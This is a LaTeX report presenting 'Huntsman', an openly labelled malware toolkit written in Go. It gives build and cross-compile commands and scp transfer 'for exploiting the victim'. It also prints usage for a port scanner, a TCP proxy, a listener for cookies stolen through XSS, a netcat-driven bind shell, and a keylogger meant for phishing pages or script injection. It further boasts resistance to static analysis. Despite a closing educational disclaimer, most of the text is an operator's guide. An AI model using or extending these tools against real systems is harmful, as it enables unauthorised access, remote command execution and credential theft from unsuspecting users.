\documentclass[12pt]{article}
% Title and author information
\title{Offensive Security with Huntsman: A concurrent versatile malware}
\author{Souvik Haldar}

% packages
\usepackage{graphicx}
\usepackage{listings}
\usepackage{hyperref}


% init
\graphicspath{ {images/} }

\begin{document}
\maketitle
\includegraphics[width=12cm, height=7cm]{logo}

\section{Introduction}
The term Malware is an acronym for Malicious Software, which is software that is used to harm or exploit any electronic device or network, causing chaos, either for fun or profit!\\
Programming is the way of writing down thoughts and logic, in a way the computers can understand and perform a task accordingly. While writing a program there is always a scope of introducing flaws which happens mostly due to gap in knowledge or lack of awareness against potentially dangerous scenarios. These flaws in the program are what hackers call vulnerability, and they exploit these bugs to make it behave in a way the programmer never intended. Malware is the way hackers talk to the computer to satisfy this goal. Hence, writing malware is an art to exploit the error in thinking. 

\section{Huntman}
\subsection{What is it} 
Huntsman is a malware, which was created keeping speed and efficiency in mind because at the end of the day malware is also a software, a malicious one.\\ 
It also can be used as a reference for learning how malwares are built and used. 

\subsection{Unique characteristics of Huntsman}
The following are the unique traits of Huntsman that sets it apart from others in the genre:
\begin{itemize}
	\item Golang: Huntsman is written in a modern language called Go which is very robust yet simple, hence invites contribution from wider range of audience instead of inculcating tech debt by using older but widely used languages. 
	\item Fast and concurrent: Our CPUs are not getting any faster as Moore’s law is dead, hence the way we can improve on processing is by reducing the latency introduced by I/O operations by adding more and more cache memory and using multiple CPUs instead of one. But, both these factors have a limit as to how large the cache can be and how many cores can be added. Hence software can be made faster by concurrently running pieces of a process (called thread). Golang takes care of this aspect well and hence Huntsman can be said to be an efficient concurrent software.  

	\item Single executable binary: Once you find a vulnerability in a system and want to exploit it using a malware, you need to reduce the time required to place the binary at the intended place. Hence having a single binary can that execute on the system is very useful as you can there is nothing else to take care of. You just place it there and start exploiting, no dependencies involved!

	\item Cross-platform: The target system can be of any architecture and be running any operating system, hence is it important that the malware should be capable enough to run on most of them. Hence the true cross-platform nature of golang comes into the picture as Huntsman can be compiled into almost any platform of choice and it will be ready to execute in no time.

	\item Versatile: Huntsman is not just one kind of malware, it is a versatile malware that can perform many kinds of malicious activity. The goal behind making huntsman versatile was that once we get access to a system, we should be able to exploit it to maximum extent and maximum possible ways. For a complete set of features refer to the feature section.

	\item Static analysis proof: A program written in golang is very hard to reverse engineer, and hence it is safe from static malware analysis to a large extent. Hence huntsman is hard to get caught very easily.  
\end{itemize}

\section{Installation}
There multiple ways in which you can install `huntsman` on your machine or a target machine.  
\begin{enumerate}
	\item Install it using golang compiler using \verb|go install| or \verb|go build|
	\begin{enumerate}
		\item Install Golang from the official website [1]
		\item \verb|git clone git@github.com:souvikhaldar/huntsman.git|
		\item \verb|cd huntsman|
		\item \verb|go install|
	\end{enumerate}

	\item Install it on PATH.\\
		Download binary appropriate for the system to be installed on, then put the downloaded binary at a location which is mentioned in the \verb|PATH| variable. The paths in the \verb|PATH| variable is typically put in the shell file (either .bashrc or .zshrc, depending on the shell being used) and sourced at the startup of the machine.

	\item Use the `goinstaller.py` script. \\ 
		You can use the \verb|goinstaller.py| python3 script (make sure you have Python3 installed on the system) to compile Huntsman and generate binary for the target system on which you would like to run. For example, you can use the script on Mac machine to generate binary for a linux system, then copy the binary for that machine and execute it there. The help page for the script is:\\
		\begin{verbatim}
		./goinstaller.py --help 
		Install go program for multiple OS and multiple architectures
		Run goinstaller.py --help for all options
		usage: goinstaller.py [-h]
				      [--os {all,popular,linux,darwin,windows,
				      dragonfly,android,freebsd,netbsd,openbsd,
				      plan9,solaris,aixjs}]
				      [--arch {all,popular,amd64,386,arm,ppc64,
				      arm64,ppc64le,mips,
				      mipsle,mips64,mips64le,s390x}]
				      [--source SOURCE] [--target TARGET]

		optional arguments:
		  -h, --help            show this help message and exit
		  --os {all,popular,linux,darwin,windows,dragonfly,android,
		  freebsd,netbsd,openbsd,plan9,solaris,aixjs}
					The target OS. Eg. all,linux,darwin,windows,etc
		  --arch {all,popular,amd64,386,arm,ppc64,arm64,ppc64le,
		  mips,mipsle,mips64,mips64le,s390x}
					The target's architecture. Eg. all,amd64,386,etc
		  --source SOURCE       The directory where source source 
		  is present
		  --target TARGET       The target dir where the binary 
		  needs to be stored
		\end{verbatim}
	Eg. Compiling for \textbf{popular} OSes like Windows, Microsoft and Linux for 64-bit architecture can be done using
		\begin{verbatim}
		./goinstaller.py --target ./download --os popular --arch amd64
		\end{verbatim}

	\item Using docker\\
	You can run Huntsman in docker as well.\\
	\verb|docker pull souvikhaldar/huntsman:0.6|
\end{enumerate}

		\section{Transfer to a target}
You would probably not like to run the malware on your own system! So transferring the compiled binary on the target machine is important step. You can transfer via multiple methods. One of the primary objective behind a versatile, light-weight, cross-platform malware like Huntsman was that, once you are in a state where you can send and execute arbitrary software on a machine (which is probably the hardest step) you don't need to wait for some particular malware to suit your need and have an allrounder ready!\\
Once you've compiled huntsman for the target OS and arch, you can transfer it 
using `scp` or any tool of choice, for exploiting the victim.  
Eg, transferring linux binary to target machine:  
\begin{verbatim}
scp ./download/linux_amd64 username@address:location
\end{verbatim}

\section{Functions of Huntsman}
Now let us dive into the functionalities that Huntsman can offer, one by one, in no particular order.\\
\textbf{NOTE}: Each functionality is itself a tool. If you want to know what functionalities/tools Huntsman has, you can run \verb|huntsman --help| to get the entire list allow with small description of each functionality. Then, if you are interested in a particular functionality further, you can use the \verb|--help| suffix to the desired tool. For example, if you are interested in the port scanning (portscan) functionality, you can run the command \verb|huntsman portscan --help| on the terminal to get the particular information.  

\subsection{Fast concurrent port scanning}
A computer may have many physical ports, like USB port, HDMI port,etc for connecting various kinds of peripherals to the computer, in order to communicate or utilize each other. Similarly, in computer networking, ports serve a similar purpose of communication. A particular process or service is \textbf{bind} to particular port (and combine with IP address) to uniquely identify and communicate with it over the network from another computer. Some ports are reserved for some communication protocols, like \textbf{HTTP} protocol based communication is reserved for port 80, for \textbf{ssh} it is 22, etc. The port number is denoted by a 16 bit unsigned integer i.e 0 to 65535.

Huntsman allows you to find if a computer has any open port to the internet, because if you can find an open port in a computer, it is easy to get into to machine and then perform the desired action. 
\begin{verbatim}
huntsman portscan --help

Concurrently scan the provided range (by default 0 to 65535) 
to check if any port is open

Usage:
  huntsman portscan [flags]

Flags:
  -e, --end int32       last port number (default 65535)
  -h, --help            help for portscan
  -s, --start int32     starting port number (default 1)
      --target string   IP/URL address of the machine to be 
      scanned
  -t, --threads int32   the number of goroutines to execute 
  at a time (default 100)
\end{verbatim}

\subsection{TCP proxy}
Transmission Control Protocol (TCP) – a connection-oriented communications protocol that facilitates the exchange of messages between computing devices in a network. It is the most common protocol in networks that use the Internet Protocol (IP); together they are sometimes referred to as TCP/IP.
A TCP proxy is a server that acts as an intermediary between a client and the destination server. Clients establish connections to the TCP proxy server, which then establishes a connection to the destination server.\\
Sometimes we need a TCP proxy in order to bypass certain restriction, filter the traffic, hide the actual identity of the client and a lot more. This functionality of \textbf{TCP Proxy} allows Huntsman to become a proxy server whenever the need be, quite neat huh?
\begin{verbatim}
huntsman proxy --help                                      

Relay traffic from source to destination via this proxy

Usage:
  huntsman proxy [flags]

Flags:
  -h, --help                    help for proxy
  -s, --port string             The port at which 
  this proxy should run (default "8192")
  -t, --target-address string   Destination to forward 
  traffic to
  -p, --target-port string      The port of the 
  destination, eg 8192,80 (default "80")
\end{verbatim}

An example of using huntsman as TCP proxy is:\\
\verb|huntsman proxy -s <local-port> -t <target-address> -p <target-port>|

\subsection{TCP Listener}
Sometimes it so happens that we need to listen to incoming data from some client, like for example, suppose you've been able to find a XSS vulnerability on website and now you want to send the stolen cookie from the site. In such case, you can spin up a TCP Listener using Huntsman on your server, then send the data to this listener and hence have the data recorded on your server. There a multiple use cases of having a listener ready to listen to data, you will find many along your way.

\begin{verbatim}
huntsman listen --help

Listen to incoming TCP requests on a port

Usage:
  huntsman listen [flags]

Flags:
  -h, --help          help for listen
      --port string   Port at which listener should run 
      (default "8192")
\end{verbatim}
An example command to turn Huntsman into a TCP listener is:\\
\verb|huntsman listen port=8192| \\	
\textit{NOTE: Don't forget to open the port on which you intend to run the listener, otherwise the client won't be able to connect to it.}

\subsection{Bind shell}
Bind shells have the listener running on the target and the attacker connect to the listener in order to gain a remote shell.\\
For using this funtionality, first you need to compile the binary for the target machine using the 
`goinstaller.py` or anything of choice. Then preferably use `scp` to transfer
the binary to the target machine (see `Installation` section) then execute it
using \verb|./<binary-name> reverseshell --port <port-number>|. Now the listener is
running to which you will be sending instructions to execute.   

We will be using \textbf{netcat} as the client for 
sending the commands over the network.  
\verb|nc <address-of-target> <port-number>|

\begin{verbatim}
huntsman bindshell --help 

This server listens for command over the internet and executes it
	in local shell

Usage:
  huntsman bindshell [flags]

Flags:
  -h, --help          help for bindshell
      --port string
                      	The port on which this bind shell listen 
			for coommands
                      	 (default "13337")s				
\end{verbatim}

Youtube link for the \href{https://youtu.be/eE0k0GVZXyc}{video demonstration of the working of the bind shell}\\
\textit{NOTE: I've used the term reverse shell for bind shell in the video, which is wrong, in reverse shell the victim machine connects with the client for taking commands}

The following screenshot shows that I've gained a bind shell into a linux machine (and also a Raspberry Pi running Linux) on my Mac machine:\\


\includegraphics[width=12cm, height=7cm]{bind}
\subsection{Keylogger}

A keylogger can log the keystrokes made by a user ,typically on a website. The logged keystrokes most of the times are crucial credentials of the users. Hackers use Credential Harvester (like keylogger) to steal your credentials.
Huntsman is the tool that contains a keylogger as well.\\

\begin{verbatim}
huntsman keylogger --help

This will run a keylogger server (a websocket) which also renders
	a HTML (with JS) client that captures the keystrokes and send 
	them to	this server, so we can know whatever the user is typing 
	on that webpage

Usage:
  huntsman keylogger [flags]

Flags:
  -h, --help                   help for keylogger
  -l, --listener-port string
                               	The port at which the listener server 
				should run on this machine (default "8192")
  -w, --ws-addr string         address of the websocket server 
  (default "localhost:8192")
\end{verbatim}


\verb|huntsman keylogger -w localhost:8192 -l 8192|

Using the above command you can run the keylogger, which will log all the inputs made to the HTML file named \textbf{logger.html} in the Huntsman github repository. The thing special about this html file is that it makes a websocket connection to the Huntsman keylogger websocket server and sends each keystoke to the server. In practical scenarios you need to have either a custom website which has this feature built into it (typically the phising websites) or find vulnerability in the website to inject this websocket connection to our huntsman keylogger server.\\


\includegraphics[width=12cm, height=8cm]{keylogger}

\href{https://youtu.be/BoPICq1MVhA}{This video} is the demonstration for using huntsman as a keylogger. 

\section{Future Work}
There are multiple important and well coveted features that I would love to add to Huntsman. Obviously the list in unending but following are the ones I've thought about for now. Because of the Open Source nature of Huntsman, I invite contributions from all the cyber security enthusiasts:\\
*  Port scanner\\
*  HTTP traffic analyzer\\
*  TCP proxy\\
*  TCP listener\\
*  HTTP server\\
*  Reverse Shell\\
*  Keylogger\\
*  SMB and NTLM expotation\\
*  Abusing Databases\\
*  Packet processing\\
*  Fuzzing and shellcode\\
*  Cryptography\\
*  Windows system analysis\\
*  Steganography\\
*  CNC RAT\\

\section{Conclusion}
The goal of Huntsman is to be an efficient piece of software (you can call it malware instead) that can transform into the required tool for hunting according to the need. Since it is open source, anyone can contribute to it for making it the ultimate tool for offensive security. \\
The biggest source of inspiration behind building this software is the completion of Advanced Program in Cyber Security  and Cyber Defense [2] at IIT Kanpur. The biggest source of Knowledge, reference and guide is the fantastic book \textbf{Black Hat Go}[3]! Hopefully this software will serve it noble purpose of teaching people how to identify and protect oneself against such malware and in the meantime, learn the amazing programming language Go as well!\\
\textit{NOTE: This software was written for educational purpose, the author can not be held liable for any mishap that occurs out of it's direct or indirect usage}


\section{References}
1. https://golang.org/ \\
2. https://iitk-cscd.talentsprint.com/ \\
3. Black Hat Go, Go Programming for Hackers and Pentesters by Tom Steele, Chris Patten, and Dan Kottmann \\
\end{document}

